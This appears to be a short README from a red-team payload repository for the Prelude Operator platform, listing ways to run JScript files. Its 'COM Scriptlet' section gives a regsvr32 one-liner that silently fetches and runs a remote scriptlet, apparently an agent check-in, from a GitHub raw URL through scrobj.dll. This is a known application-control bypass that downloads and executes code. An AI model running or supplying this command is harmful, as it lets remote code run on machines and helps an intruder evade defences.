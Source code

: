 ## Examples in JScript.

`cscript.exe [filename.js]`

## COM Scriptlet

`regsvr32.exe /s /u /i:https://raw.githubusercontent.com/secdev-01/PreludeOperator_QuickCheck/main/jscript/prelude_checkin.sct scrobj.dll`

## cscript

`cscript dotnet_interop.js`

